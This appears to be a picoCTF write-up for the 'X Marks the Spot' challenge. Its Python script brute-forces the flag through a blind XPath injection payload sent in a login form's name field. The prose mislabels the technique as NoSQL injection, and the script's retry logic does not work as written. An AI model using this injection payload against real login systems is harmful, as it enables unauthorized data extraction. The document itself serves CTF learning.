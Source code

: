 ## X Marks the Spot
The following python code uses a blind nosql injection to brute force the website. Essentially we can send the server a part of the flag and it will respond with "yes" or "no".  We can use this to brute force the flag. So the script below send every possible charcter until we get a character right, then it appends a new one to try it again for the next character. This process repeats until the flag is complete.

For example:

	Request: "picoCTF{a"
	Response: "no"

	Request: "picoCTF{b"
	Response: "no"

	Request: "picoCTF{c"
	Response: "yes"

	Request: "picoCTF{ca"
	Response: "no"

	Request: "picoCTF{cb"
	Response: "yes"

If you would like to read on the topic, here are some resources:
[https://owasp.org/www-community/attacks/Blind_XPath_Injection](https://owasp.org/www-community/attacks/Blind_XPath_Injection "https://owasp.org/www-community/attacks/Blind_XPath_Injection")  [https://book.hacktricks.xyz/pentesting-web/xpath-injection](https://book.hacktricks.xyz/pentesting-web/xpath-injection "https://book.hacktricks.xyz/pentesting-web/xpath-injection")

  ```python
 import requests
 
alphabet =  "_abcdefghijklmnopqrstuvwxyz1234567890()ABCDEFGHIJKLMNOPQRSTUVXWYZ{}"
flag =  "picoCTF{"
url =  "http://mercury.picoctf.net:28065/"

req = requests.Session()

while flag[-1]  !=  '}':

	for i in  range(len(alphabet)):

		try:
			res = req.post(url,  data={"name":"bob' and //*[contains(text(),'"+flag+alphabet[i]+"')] or ''='","pass":"admin"},  timeout=1)

			if  ("Login failure"  not  in res.text):

				flag += alphabet[i]

				print("[+] Flag: "  + flag)
				
				break

		except:

			i-=1 
